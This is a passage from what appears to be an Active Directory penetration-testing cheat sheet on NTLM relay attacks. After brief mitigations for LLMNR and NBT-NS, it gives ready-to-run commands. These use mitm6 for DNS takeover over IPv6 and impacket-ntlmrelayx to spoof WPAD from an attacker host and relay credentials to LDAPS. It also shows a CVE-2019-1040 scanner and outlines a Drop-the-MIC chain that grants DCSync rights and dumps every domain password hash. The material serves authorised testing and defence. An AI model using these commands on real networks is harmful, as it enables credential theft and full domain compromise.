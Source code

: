 **Mitigations**:

* Disable LLMNR via group policy

    ```powershell
    Open gpedit.msc and navigate to Computer Configuration > Administrative Templates > Network > DNS Client > Turn off multicast name resolution and set to Enabled
    ```

* Disable NBT-NS

    ```powershell
    This can be achieved by navigating through the GUI to Network card > Properties > IPv4 > Advanced > WINS and then under "NetBIOS setting" select Disable NetBIOS over TCP/IP
    ```

## SMB Signing Disabled and IPv6

Since [MS16-077](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-077) the location of the WPAD file is no longer requested via broadcast protocols, but only via DNS.

```powershell
netexec smb $hosts --gen-relay-list relay.txt

# DNS takeover via IPv6, mitm6 will request an IPv6 address via DHCPv6
# -d is the domain name that we filter our request on - the attacked domain
# -i is the interface we have mitm6 listen on for events
mitm6 -i eth0 -d $domain

# spoofing WPAD and relaying NTLM credentials
impacket-ntlmrelayx -6 -wh $attacker_ip -of loot -tf relay.txt
impacket-ntlmrelayx -6 -wh $attacker_ip -l /tmp -socks -debug

# -ip is the interface you want the relay to run on
# -wh is for WPAD host, specifying your wpad file to serve
# -t is the target where you want to relay to. 
impacket-ntlmrelayx -ip 10.10.10.1 -wh $attacker_ip -t ldaps://10.10.10.2
```

## Drop the MIC - CVE-2019-1040

> The CVE-2019-1040 vulnerability makes it possible to modify the NTLM authentication packets without invalidating the authentication, and thus enabling an attacker to remove the flags which would prevent relaying from SMB to LDAP

Check vulnerability with [cve-2019-1040-scanner](https://github.com/fox-it/cve-2019-1040-scanner)

```powershell
python2 scanMIC.py 'DOMAIN/USERNAME:PASSWORD@TARGET'
[*] CVE-2019-1040 scanner by @_dirkjan / Fox-IT - Based on impacket by SecureAuth
[*] Target TARGET is not vulnerable to CVE-2019-1040 (authentication was rejected)
```

* Using any AD account, connect over SMB to a victim Exchange server, and trigger the SpoolService bug. The attacker server will connect back to you over SMB, which can be relayed with a modified version of ntlmrelayx to LDAP. Using the relayed LDAP authentication, grant DCSync privileges to the attacker account. The attacker account can now use DCSync to dump all password hashes in AD
